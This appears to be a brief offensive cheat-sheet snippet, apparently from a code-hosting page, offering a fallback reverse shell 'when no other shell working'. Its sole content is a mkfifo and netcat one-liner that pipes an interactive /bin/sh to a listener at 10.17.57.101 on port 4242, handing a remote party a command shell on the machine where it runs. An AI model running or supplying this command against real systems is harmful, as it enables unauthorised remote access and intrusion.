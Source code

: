 ## work , when no other shell working , maybe
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.57.101 4242 >/tmp/f
```